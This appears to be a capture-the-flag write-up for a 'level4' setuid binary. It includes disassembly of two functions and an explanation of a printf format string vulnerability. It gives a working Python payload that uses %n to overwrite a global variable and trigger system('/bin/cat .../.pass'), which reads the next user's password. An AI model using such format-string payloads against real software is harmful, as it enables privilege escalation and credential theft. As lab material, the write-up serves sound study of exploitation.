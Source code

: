 # Level4

## Solution

* There is one file in our home, ```level4```, belonging to ```level5``` user, with suid.
* Here's the hand-decompiled source code we propose for this binary: [source.c](source.c)

* The only purpose of the ```main``` function is to call ```n``` function.

* Here is the disassembled ```n``` function:
```asm
0x08048457 <+0>:	push   ebp
0x08048458 <+1>:	mov    ebp,esp
0x0804845a <+3>:	sub    esp,0x218
0x08048460 <+9>:	mov    eax,ds:0x8049804
0x08048465 <+14>:	mov    DWORD PTR [esp+0x8],eax
0x08048469 <+18>:	mov    DWORD PTR [esp+0x4],0x200
0x08048471 <+26>:	lea    eax,[ebp-0x208]
0x08048477 <+32>:	mov    DWORD PTR [esp],eax
0x0804847a <+35>:	call   0x8048350 <fgets@plt>
0x0804847f <+40>:	lea    eax,[ebp-0x208]
0x08048485 <+46>:	mov    DWORD PTR [esp],eax
0x08048488 <+49>:	call   0x8048444 <p>
0x0804848d <+54>:	mov    eax,ds:0x8049810
0x08048492 <+59>:	cmp    eax,0x1025544
0x08048497 <+64>:	jne    0x80484a5 <n+78>
0x08048499 <+66>:	mov    DWORD PTR [esp],0x8048590
0x080484a0 <+73>:	call   0x8048360 <system@plt>
0x080484a5 <+78>:	leave
0x080484a6 <+79>:	ret
   ```

* Several interesting information about it:

	* ```n``` calls ```fgets``` at offset ```35``` function with a buffer allocated on the stack.
	* then it calls ```p``` function (see after) qt offset ```49```, passing the buffer in parameter.
	* between offsets ```54``` and ```64```, it compares the value contained at the address ```0x8049810``` with the value ```0x1025544```.
	* if they are the same, it calls ```system``` function. ```gdb``` allows us to see that the command passed in parameter is ```/bin/cat /home/user/level5/.pass```

* Here is the diassembled ```p``` function:
```
0x08048444 <+0>:	push   ebp
0x08048445 <+1>:	mov    ebp,esp
0x08048447 <+3>:	sub    esp,0x18
0x0804844a <+6>:	mov    eax,DWORD PTR [ebp+0x8]
0x0804844d <+9>:	mov    DWORD PTR [esp],eax
0x08048450 <+12>:	call   0x8048340 <printf@plt>
0x08048455 <+17>:	leave
0x08048456 <+18>:	ret
   ```

* Interesting information about it:

	* there is call to ```printf``` at offset ```12```. ```gdb``` allows us to see that it is with the buffer allocated for ```fgets```


* What we did with all of this:

	* the goal was to modify the value held at ```0x8049810``` so that it becomes equal to ```0x1025544```, what would launch the ```system("/bin/cat /home/user/level5/.pass")```
	* for that we exploited the "format string vulnerability" of ```printf``` called in ```p```, with our own ```input``` (the one we send to ```fgets```).
	* we used conversion specifiers (for instance ```%x```), to get to the beginning of the buffer allocated for ```fgets```. Indeed, each time we use a conversion specifier, ```printf``` "points" after the last argument it processed on the stack.
	* We made sure the first value at the beginning of the buffer was ```0x8049810```
	* then we used ```%n``` to store at this address the length of the output string

	* To make a long story short:
	```sh
	python -c "print('10980408'.decode('hex') + '%8x ' * 10 + '%16930022x' + '%n')" > /var/crash/lvl4
	```
	* ```10980408``` is the little endian written address we want to write at
	* we used ```11``` conversion specifiers to reach the beginiing of the buffer (there were ```(11 + 1) * 4 = 48``` bytes separating first argument of printf from the buffer)
	* we use the lenght modifier ```%16930022x``` to output a final string of the size ```0x1025544```
	* ```%n``` stores this value at the address ```0x8049810```

	* We finally get the flag by launching:
	```sh
	cat /var/crash/lvl4 - | ./level4
	```
